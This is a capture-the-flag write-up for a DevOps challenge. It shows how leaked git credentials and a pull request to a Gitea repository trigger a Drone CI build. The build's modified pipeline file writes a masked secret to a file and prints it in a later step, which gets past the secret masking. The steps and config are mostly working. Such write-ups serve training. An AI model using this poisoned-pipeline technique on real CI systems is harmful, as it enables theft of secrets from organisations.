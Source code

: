 # Poisoned (DevOps)

## Challenge

```
Someone leaked their git credentials (developer:2!W4S5J$6e). Can you get their company secrets? 
```

## Solution

This was a fun one

First starting up the system and have a look into the servers

### Gitea

http://git.challenge.nahamcon.com:32637/ does have one repository with a done ci yaml including following line

```
steps:
  - name: master
    commands:
      - echo "Running from the $DRONE_BRANCH branch"
      - echo "Flag -> $FLAG"
   environment:
      FLAG:
        from_secret: flag
```


### Drone CI

So the flag is printed out with echo.
Let's see the latest build  on http://drone.challenge.nahamcon.com:32637/JustHacking/poisoned/10/1/2

```
+ echo "Running from the $DRONE_BRANCH branch"

Running from the master branch

+ echo "Flag -> $FLAG"

Flag -> [secret:flag]
```

As expected Drone CI is mascerading the secret.

Let's see if we can change the code to trigger a new build.
![image](assets/changning_a_file_1.JPG)

We have to fork the repository.

So log in with the provided credentials (developer:2!W4S5J$6e), create a fork an push the change.

![image](assets/changning_a_file_2.JPG)
Having a look into drone CI, the commit did not trigger a new build.
So let's create a PR and we will see, that a new build was triggered in Drone.
![image](assets/Pull_Request_Change1.JPG)
![image](assets/Pull_Request_Drone1.JPG)


Since most CI servers only mask the credentials they use within the output let's try to save the flag and then read it out outside of the secretive context, changing the .drone.yml-file to


```
---
kind: pipeline
type: exec
name: test pipeline master

platform:
  os: linux
  arch: amd64

steps:
  - name: master
    commands:
      - echo "Running from the $DRONE_BRANCH branch"
      - echo "Flag -> $FLAG" > secret.txt
    environment:
      FLAG:
        from_secret: flag
  - name: hack-the-world
    commands:
    - cat secret.txt
trigger:
  branch:
    - master
```

The Build will write the secret to file secret.txt.
In a different step, outside of the secret-context of step `master` the file is read out and should in theory contain the flag.

Since the PR is still open a new build is triggered and we see a new step `hack-the-world` with our flag
![image](assets/Reveal_Flag.JPG)

Flag: `flag{0ee4a0101bb992911c2c56e17d9b86cd}`


